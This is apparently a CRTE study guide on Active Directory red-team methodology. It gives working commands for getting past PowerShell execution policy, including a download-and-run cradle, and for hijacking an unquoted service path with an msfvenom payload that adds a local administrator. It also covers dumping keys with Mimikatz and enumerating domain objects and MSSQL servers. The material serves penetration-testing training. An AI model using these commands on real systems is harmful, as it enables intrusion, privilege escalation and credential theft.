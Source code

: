 # General

In the journey to CRTE you need to understand the basic methodology to audit an Active Directory Environment.

![Pasted image 20220428103516](https://user-images.githubusercontent.com/94725286/177431659-8f09fadf-9f2a-4a93-8c9e-8efdfc9a84f6.png)

>:exclamation:Domain Admin is not the only way to own an Active Directory environment.

>:exclamation:CRTE is not a certification oritented to exploit vulnerabilities, is oriented to abuse a missconfigured environment.

## Step 01 - Local enumeration

In a real red team operation, you don't have a high privilege account, you need to enumerate your local machine and your domain account.

In many case you have a minimum privileges account, in this case you don't have permission to execute scripts or tools. Is neccessay bypass those controls.

```
PS C:\Users\0xdemiafk\Documents\> Get-ExecutionPolicy

Restricted
```

A good tool to bypass the Execution Policy is using [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). 

Using InvisiShell you are able to bypass some controls.

>:warning: InvisiShell must be executed with CMD.

```
C:\Users\0xdemiafk\Documments\> RunWithRegistryNonadmin.bat
```

With a InvisiShell terminal you're able to execute or import scripts.

A lot of techniques to bypass execution policy can be found on internet.

```
PS C:\Users\0xdemiafk\Documents\> Get-Content .\PowerView.ps1 | PowerShell.exe -noprofile -
```

```
PS C:\Users\0xdemiafk\Documents\> powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://localhost:8080/PowerView.ps1')"
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy UnRestricted -File .PowerView.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> PowerShell.exe -ExecutionPolicy Remote-signed -File .PowerView.ps1
```

When you are able to import or execute script you can use PowerView or ActiveDirectory module to start to enumerating your system.

<br>

### Enumerating group membership

```
PS C:\Users\0xdemiafk\Documents\> whoami /GROUPS
```

### Enumerating unquoted path services.

>:fire:	What is an Unquoted Path Services Hijacking?
>
>Is a miss configuration on the service executable reference. An unquoted path service can be attack replacing the legit executable to a malicious one if an attacker has permission to write on some place of the path. In the order to find for the executable, the operating system tries to execute each block in the path, each space in the executable path delimits a new block.

```
PS C:\Users\0xdemiafk\Documents\> Get-WmiObject -Class win32_service | select pathname
```

### Importing and executing PowerUp

```
PS C:\Users\0xdemiafk\Documents\> Import-Module PowerUp.ps1; Invoke-AllChecks
```


### Importing Active Directory Module.

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\Microsoft.ActiveDirectory.dll -Verbose
```

```
PS C:\Users\0xdemiafk\Documents\> Import-Module .\ActiveDirectory.psd1
```
### Importing PowerView

```
PS C:\Users\0xdemiafk\Documents\> .\PowerView.ps1
```

## Step 02 - Local Privilege Escalation

>:warning: In some cases is not possible to escalate privilege on the first machine. In this case is necessary enumerate another machines that you can access. Local Admin is a necessary permission to perform some attacks.

### Perform an Unquoted Path Service Hijacking

If you identify a vulnerable path and wrong permission, you can place a payload to elevate your privileges.

Example:

```
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

The execution order is:

```
C:\Program.exe 
C:\Program Files\Vulnerable.exe 
C:\Program Files\Vulnerable service\path.exe
C:\Program Files\Vulnerable service\path to the executable\executable.exe
```

Having write privileges on one of those folder, is possible to place an executable with a malicious payload.

```
0xdemiafk@root# msfvenom -a x86 --platform Windows -p windows/exec CMD="net localgroup administrators redteamuser /add" -f exe > path.exe
```

### Steal local keys with mimikatz (Using local administrator permission)

```
PS C:\Users\0xdemiafk\Documents\> Import-Module Mimikatz.ps1
```

```
PS C:\Users\0xdemiafk\Documents\> Invoke-Mimikarz -Command "'sekurlsa::ekeys'"
```


## Step 03 - Active Directory enumeration

>:eye: Useful tools for enumerating
>
>PowerView -> Great tool for Active Directory enumeration.
>ADModule -> Signed DLL used for Active Directory management.
>PowerUPSQL -> Dedicated tool for auditing MSSQL.

>:warning: Don't try to get domain admin user quickly, rarely you can own a domain admin account.

Enumerate all GPOs using "Restircted Groups"

> :information_source: A Restricted Group is an object to represent a local group in a computer.

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainGPOLocalGroup
```

Enumerate all members from a group (Using ADModule).

```
PS C:\Users\0xdemiafk\Documents\> Get-ADGroupMember "Domain Admins" -Recursive

```

Enumerate all OUs.

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainOU
```

Enumerate OUs that contains "domain":

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainOU -Identity "*domain*"
```

Enumerate GPO applied to an OU:

```
PS C:\Users\0xdemiafk\Documents\> Get-DomainGPO -Identity "{FCE16496-C744-4E46-AC89-2D01D76EAD68}"
```

Enumerate MSSQL servers and instances:
```
PS C:\Users\0xdemiafk\Documents\> Get-SQLInstanceBroadcast -Verbose
```

Test if MSSQL is accessible:

```
PS C:\Users\0xdemiafk\Documents\> Get-SQLConnectionTest -Instance SQLSRV01\SQL -Verbose
```

